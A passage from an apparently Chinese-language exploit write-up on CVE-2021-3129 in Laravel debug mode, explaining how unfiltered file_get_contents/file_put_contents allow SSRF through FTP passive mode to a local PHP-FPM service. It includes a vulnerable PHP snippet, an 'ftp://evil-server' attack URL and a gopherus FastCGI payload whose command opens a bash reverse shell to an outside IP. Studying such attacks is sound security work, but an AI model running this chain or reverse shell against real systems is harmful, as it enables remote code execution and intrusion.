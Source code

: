 这是在之前复现Laravel Debug mode RCE（CVE-2021-3129）漏洞时学到的一个思路。该漏洞的核心就是传入 file\_get\_contents() 和 file\_put\_contents() 这两个函数中的内容没有经过过滤，从而可以通过精巧的构造触发 phar 反序列化，达到RCE的效果。

漏洞代码大致可以简化为如下代码：

```plain
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

可以看到这里主要功能点是：读取一个给定的路径 `$_GET['viewFile']`，之后写回文件中 `$_GET['viewFile']`，这相当于什么都没有做！

由于我们可以运行 file\_get\_contents() 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送HTTP请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。

众所周知，如果我们能向 PHP-FPM 发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与gopher://协议结合使用，curl支持gopher://协议，但file\_get\_contents却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议是FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从FTP服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个有服务端指定的IP和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，如果我们尝试使用 `viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

-   首先通过 file\_get\_contents() 函数连接到我们的FTP服务器，并下载file.txt。
-   然后再通过 file\_put\_contents() 函数连接到我们的FTP服务器，并将其上传回file.txt。

现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file\_get\_contents() 在我们的服务器上下载一个文件，当它试图使用 file\_put\_contents() 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成SSRF了。

下面我们来演示一下攻击过程。

首先，我们使用gopherus生成攻击fastcgi的payload：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[![](assets/1698897074-24dd0b4bc43231ead75054833d890ca7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

